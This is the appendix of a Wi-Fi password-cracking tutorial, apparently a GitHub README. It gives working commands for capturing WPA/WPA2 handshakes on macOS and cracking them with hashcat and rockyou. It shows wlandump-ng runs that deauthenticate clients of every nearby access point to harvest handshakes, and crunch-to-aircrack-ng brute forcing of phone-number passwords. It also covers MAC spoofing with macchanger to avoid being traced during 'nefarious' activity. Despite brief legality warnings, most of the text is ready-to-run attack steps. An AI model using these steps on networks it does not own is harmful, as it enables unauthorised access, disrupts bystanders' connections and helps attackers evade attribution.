 # Appendix

After the initial release of this tutorial, several people from various corners of the internet reached out with comments and suggestions. In an effort two keep the original tutorial short and sweet, I've included information about their wonderful suggestions here, and added some of my own. Here you will find info on:

- Wi-Fi cracking on MacOS/OSX
- Capturing handshakes with `wlandump-ng`
- Generating wordlists with `crunch`
- Protecting your identity with `macchanger`

## Wi-Fi cracking on MacOS/OSX

Huge thanks to [@harshpatel991](https://github.com/harshpatel991) for contributing this guide. The following explains how to use built-in MacOS/OSX tools to capture a 4-way handshake and naive-hashcat to determine the password of a WPA/WPA2 wireless network. This method has been tested on OSX versions 10.10 and 10.12 but will likely work with other versions as well. Like the main tutorial, it assumes you have a [wireless card](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) that supports [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode). We've tested this on both Early-2012 and Mid-2015 Macbook Pros with great success.

### Wireless Diagnostics tools

Luckily, OSX comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..."

### Determine the channel of your target network

With Wireless Diagnostics open, click on Window > Scan. Find the target network, note its channel and width.

### Capture a 4-way Handshake

1. With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
2. Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
3. Once you think you've got a handshake, click Stop.
4. The `.wcap` capture file will either be saved to your Desktop or `/var/tmp/` depending on your operating system version.
5. Convert the capture file to `.hccapx` by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a `.hccapx` file. No download will be prompted if you did not.

### Crack the password with `naive-hashcat`

```bash
# clone naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# build from source on MacOS/OSX
./build-hashcat-osx.sh

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Finally, run `naive-hashcat.sh`. Change `handshake.hccapx` to the name of the file you downloaded from [hashcat.net](https://hashcat.net/cap2hccapx/). `cracked.pot` is the name of the output file. 

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Thanks again to [@harshpatel991](https://github.com/harshpatel991), as well as [phillips321](http://www.phillips321.co.uk/) for his [post](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/) about building hashcat for OSX.

## Capturing handshakes with `wlandump-ng`

[@enilfodne](https://github.com/enilfodne) has [informed me](https://github.com/brannondorsey/wifi-cracking/issues/15) that the hashcat community has a prefered tool for capturing WPA 4-way handshakes, called `wlandump-ng`. This tool belongs to a suite of hashcat related utilities called [hcxtools](https://github.com/ZerBea/hcxtools) developed by [ZerBea](https://github.com/ZerBea), and has notable perks over `airdump-ng`. `wlandump-ng` allows you to blanket capture handshakes from every nearby network at once, hopping Wi-Fi channels in order to increase collection.


```bash
# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# build and install
# you will likely need to apt install the required dependencies:
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# blanket death connected clients from all nearby access points and listen for re-connections
# replace wlan0 with your wireless device name
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# once you've got a capture file, you can convert it to the hashcat capture format with
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` command-line args (use `-h` flag for full list):

- `-c 1`: start in the 2.4Ghz range from channel 1 (will go to 13)
- `-t 60`: stay on each channel for 60s (experiment with lower values, default is `5`)
- `-d 100`: send deauth every 100 beacon frames
- `-D 10`: send disassosciation packets every 10 beacons frames
- `-m 512`: internal ringbuffer size, use 512 for low resource machines
- `-b`: activate beaconing to last 10 probe requests
- `-r`: reset deauthentication/disassosciation counter if hop loop is on channel 1
- `-s 20`: display 20 status lines

**WARNING:** Using this is likely illegal in most places. See [here](https://github.com/ZerBea/hcxtools#warning) for more info.

`wlandump-ng` also offers the option to run in passive mode without transmitting any deauth/disassociation frames. This is recommended if you are are sensitive to disrupting the network activity of those around you (which you should be). The trade-off is that you will capture far fewer handshakes, but this method makes the capture undetectable.

```bash
# run with default settings in passive mode
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## Generating wordlists with `crunch`

`crunch`is a tool to generate wordlists using combinations of a given string or pattern. We can use crunch to generate a password list on-the-fly and pipe it to `aircrack-ng` without having the wordlist saved to disk.

```bash
# install crunch
sudo apt-get install crunch
```

To get an idea of how crunch works, run it from the command-line (be ready to press `ctrl-c` once it starts spewing passwords):

```bash
# syntax 8 8 are min-length and max-length of password to generate
# 01234567890 is the set of characters to combine/permute to construct the passwords
crunch 8 8 0123456789
```

```
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

We can pipe the output of `crunch` as the input to `aircrack-ng`, using the passwords that it generates as our wordlist. Here we use the `crunch` special rule character `%` to denote a digit. This command attempts to crack WPA passwords that are 10-digit phone numbers (using 102GB of numbers generated by crunch on-the-fly): 

```bash
# we can also use -t "@^%," to use pattern '@' - replaced with lowercase ',' - replaced with uppercase
# '%' - replaced with numbers and '^' - is replaced with special chars
# *************** don't forget '-' at the end
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

Thanks to [@hiteshnayak305](https://github.com/hiteshnayak305) for the introduction to `crunch` and including this update as a [PR](https://github.com/brannondorsey/wifi-cracking/pull/17).

## Protecting your identify with `macchanger`

Whenever you are doing anything remotely nefarious with Wi-Fi, it is a good idea to spoof your MAC address of your Wi-Fi device so that any network traffic that gets recorded can't be tied to serial assigned by your device manufacturer.

This is trivial with `macchanger`:

```bash
# download MAC changer
sudo apt-get install macchanger

# bring the device down
sudo ifconfig wlan0 down

# change the mac
# -A pics a random MAC w/ a valid vendor
# -r makes it truly random
# -p restores it to the original hardware MAC
sudo macchanger -A wlan0

# bring the device back up
sudo ifconfig wlan0 up
```

If you've got multiple cards, it might also be a good idea to do this to all of them. Or better yet, bring unused wireless interfaces down whenever you are attempting to capture handshakes, to leave as little trace as possible. Note that spoofing changes do not persist across reboots.


